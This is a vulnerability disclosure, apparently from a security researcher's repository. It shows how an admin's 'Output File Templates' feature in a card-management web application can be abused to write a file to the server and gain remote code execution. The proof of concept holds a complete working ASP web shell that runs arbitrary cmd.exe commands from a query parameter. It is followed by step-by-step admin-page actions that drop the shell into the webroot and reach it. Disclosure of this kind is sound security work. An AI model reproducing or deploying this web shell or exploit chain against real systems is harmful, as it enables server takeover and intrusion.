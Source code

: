 ## Description

This vulnerability allows an attacker to abuse the "Output File Templates" functionality to write a malicious ASP file onto the target system instead of a standard text log file. By exploiting this flaw, the attacker can place and execute arbitrary code in the form of an ASP or ASPX file, resulting in remote code execution on the server.

## Vulnerability Location

- `https://<Host-Name>/#/Administration/TemplateManager`

## Proof of Concept

Login with any admin account and Go to `https://<Host>/#/Administration/TemplateManager` and Create a template with the following content:

```aspx
[file=C:\inetpub\wwwroot\CardWizard_<CLIENT>\shell.asp]
<%
    ' Check if a command is provided in the query string     Dim command, output
    command = Request.QueryString("cmd")
    If command <> "" Then
        ' Create a shell object to execute the command
        Dim shell
        Set shell = CreateObject("WScript.Shell")         
        ' Execute the command and capture output
        Dim exec
        Set exec = shell.Exec("cmd.exe /c " & command)
        ' Get the command's standard output         output = ""
        Do Until exec.StdOut.AtEndOfStream
            output = output & exec.StdOut.ReadLine() & vbCrLf
        Loop
        ' Display the output
        Response.Write "<pre>" & Server.HTMLEncode(output) & "</pre>"         
        ' Clean up
        Set exec = Nothing
        Set shell = Nothing     Else
        Response.Write "<h2>Please provide a command using the 'cmd' query parameter.</h2>"
    End If
%>
<!DOCTYPE html>
<html>
<head>
    <title>Command Execution in ASP</title>
</head>
<body>
    <h1>Execute Command</h1>
    <form method="get">
        Command: <input type="text" name="cmd" />
        <input type="submit" value="Execute" />
    </form>
</body>
</html>
[fileoff]
```

![](./images/Pasted%20image%2020250809014814.png)

Go to `https://<Host-Name>/#/Administration/CardFormatLinks` and assign the template to a card format:

![](./images/Pasted%20image%2020250809014825.png)

Go to `https://<Host-Name>/#/CardActions/PrintSamplePINMailer` and print the card format PIN Mailer to write the file on the disk:

![](./images/Pasted%20image%2020250809015003.png)

Now you can access the web shell at `https://<Host-Name>/shell.asp` and verify code execution on the server:

![](./images/Pasted%20image%2020250809023803.png)
